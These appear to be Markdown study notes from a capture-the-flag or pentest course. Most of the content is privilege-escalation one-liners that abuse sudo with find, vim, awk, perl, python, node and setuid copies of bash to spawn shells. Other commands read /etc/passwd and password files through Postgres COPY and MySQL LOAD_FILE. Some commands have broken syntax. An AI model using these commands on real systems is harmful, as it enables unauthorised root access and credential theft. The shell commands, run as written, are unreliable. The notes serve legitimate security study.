 
## Day 1
#### find /dir -type f-name name -exec grep -H '^keyword' {} \;

### Decompressing files
#### tar -xjf file.tbz
#### tar -xzf file.tgz
#### bunzip2 file.bz2

### Encrypting and Decrypting files with openssl
https://robertheaton.com/2013/07/29/padding-oracle-attack/
#### openssl enc -d -aes256 -k KEY -in enc.tgz.enc -out out.tgz

#### Data stays longer in /var/tmp then /tmp dir

### Cronjobs
Never leave credentials in cron jobs.

<!-- $1 = md5crypt $5 = sha256 $6 = sha512 -->
### See services runing in a system
#### ps -edf

### Intresting Directory
#### /var/lib/mysql/mysql

### Read arbitary file when logged in as mysql using load_file() function
#### SELECT LOAD_FILE('/var/lib/password.txt');

### Postgresql 
#### psql 

| List Database | Connect To Database | List Tables | Read Data from Tables | Create Table |
| ---|---| --- | --- | --- |
| \list | \c database_name | \d | SELECT * FROM table_name; | CREATE TABLE tname(column data); |

| Copy Arbitary File to Table | DELETE TABLE |
| --- | --- |
| COPY tname '/etc/passwd'; | DROP TABLE tname; |

### Sqlite 
Poratble Database
|List Tables| Read Data From Table |
|---| -- |
|.tables| SELECT * FROM tablename;|

### Privilege Escalation abusing find command
##### sudo -u user find /etc -name passwd -type f -exec bash \;
##### sudo -u user find /usr/bin -name password.txt -type f -exec cat {} \;

### Privilege Escalation abusing vim
##### sudo -u user vim -c ':!/bin/sh'

### Privilege Escalation abusing awk
##### sudo -u user awk 'BEGIN {system("/bin/bash")}'
##### sudo -u user awk {'print $1'} ~/flag.txt

### Privilege Escalation abusing perl
#### sudo -u user perl -e 'exec "/bin/sh";'
#### sudo -u user perl -e 'print `cat flag.txt`'

### Privilege Escalation abusing python
#### sudo -u user python -c 'import os; os.system("/bin/sh")'
#### sudo -u python
###### import os
###### os.system('cat flag.txt')

### Privilege Escalation abusing node
#### sudo -u user node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

### Privilege Escalation with cp and chmod
#### Copy the /bin/bash to /tmp/test
#### chmod +xs /tmp/test && ./test
#### $test
#### Create following file hello :
int main (void)
{
system("cat /home/victim/key.txt");
}

#### sudo -u user cp hello /tmp/test
#### sudo -u user chmod +xs /tmp/test && ./test
### Create wordlist for testing opensource projects
#### find | sed 's/\.//g' > ffufwordlist.txt

